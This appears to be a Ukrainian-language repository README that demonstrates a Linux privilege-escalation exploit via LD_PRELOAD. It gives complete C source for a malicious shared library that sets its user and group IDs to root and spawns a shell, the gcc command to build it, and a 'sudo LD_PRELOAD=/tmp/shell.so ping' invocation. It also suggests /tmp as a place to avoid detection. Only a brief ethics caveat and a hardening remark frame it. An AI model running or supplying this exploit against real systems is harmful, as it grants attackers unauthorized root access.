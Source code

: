 
<h2>Опис</h2>
<p>Цей репозиторій демонструє експлойт ескалації прав за допомогою змінної <code>LD_PRELOAD</code>. Створюючи спеціальну загальну бібліотеку, ми можемо впровадити її в програму та ескалювати привілеї, наприклад, для запуску довільних команд з правами root.</p>
<p><code>LD_PRELOAD</code> — це змінна середовища, яка використовується для попереднього завантаження загальних бібліотек у програму або скрипт перед її виконанням. Це дозволяє замінити функції за замовчуванням програми, що дає змогу маніпулювати її поведінкою.</p>

<h2>Пояснення</h2>
    <p>Ми створимо загальну бібліотеку, яку можна буде завантажити в програму за допомогою <code>LD_PRELOAD</code>, що дозволить нам ескалувати привілеї програми до прав root. Ключова ідея — використання змінної <code>LD_PRELOAD</code> для попереднього завантаження шкідливої бібліотеки перед виконанням цільової програми.</p>


<h3>Кроки реалізації</h3>
<ol>
<li><strong>Створення бібліотеки-експлойту:</strong> Спершу ми напишемо програму на C (файл <code>shell.c</code>), яку скомпілюємо в загальний об'єкт (файл <code>shell.so</code>). Ця бібліотека виконає ескалацію привілеїв, запустивши оболонку з правами root.</li>
</ol> 
'''
<pre><code>#include &lt;stdio.h&gt;
     #include &lt;sys/types.h&gt;
#include &lt;stdlib.h&gt;

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}</code></pre>

    
<p>У цьому коді:</p>
    <ul>
        <li><code>setgid(0)</code> і <code>setuid(0)</code> встановлюють ID групи та користувача на <code>0</code>, що відповідає користувачу root.</li>
        <li><code>system("/bin/sh")</code> запускає оболонку з правами root.</li>
    </ul>

<ol start="2">
        <li><strong>Компиляція бібліотеки:</strong> Після написання коду потрібно скомпілювати його в загальний об'єкт за допомогою наступної команди:</li>
    </ol>
    <pre><code>gcc -fPIC -shared -o shell.so shell.c -nostartfiles</code></pre>

<p>Це створить файл <code>shell.so</code>, який є загальним об'єктом, що може бути завантажений в інші програми за допомогою <code>LD_PRELOAD</code>.</p>

<ol start="3">
        <li><strong>Встановлення змінної LD_PRELOAD:</strong> Щоб скористатися вразливістю програми, потрібно встановити змінну середовища <code>LD_PRELOAD</code> на шлях до нашої шкідливої бібліотеки. Припустимо, що об'єкт зберігається в <code>/tmp</code> для зручності доступу.</li>
    </ol>
    <pre><code>sudo LD_PRELOAD=/tmp/shell.so ping</code></pre>

<p>Ця команда змушує програму <code>ping</code> завантажити нашу шкідливу бібліотеку перед її виконанням. В результаті, при запуску програми <code>ping</code>, вона отримає права root і відкриє оболонку.</p>

<h2>Важливі зауваження</h2>
    <ul>
        <li><strong>Місце зберігання об'єкта:</strong> Шкідлива бібліотека (<code>shell.so</code>) не обов'язково повинна знаходитися в <code>/tmp</code>, але це зручне місце для уникнення виявлення.</li>
        <li><strong>Цільова програма:</strong> У цьому прикладі ми використовуємо програму <code>ping</code> як ціль. Однак цей метод можна застосувати до будь-якої програми, яка динамічно завантажує бібліотеки.</li>
        <li><strong>Безпекові наслідки:</strong> Використання <code>LD_PRELOAD</code> таким чином може бути використано для ескалації прав, що є суттєвою загрозою для безпеки. Переконайтеся, що ви розумієте юридичні та етичні наслідки використання цього експлойту.</li>
    </ul>

h2>Приклад використання</h2>
    <pre><code>gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/tmp/shell.so ping</code></pre>

    
<p>Це дозволить ескалувати привілеї і запустити оболонку з правами root.</p>

<h2>Висновок</h2>
<p>Цей приклад демонструє, як можна використовувати <code>LD_PRELOAD</code> для ескалації прав. Хоча цей метод є потужним, важливо розуміти його потенціал для шкідливого використання. Системи повинні бути налаштовані для мінімізації таких ризиків, забезпечуючи належну безпеку та захист від експлойтів типу <code>LD_PRELOAD</code>.</p>

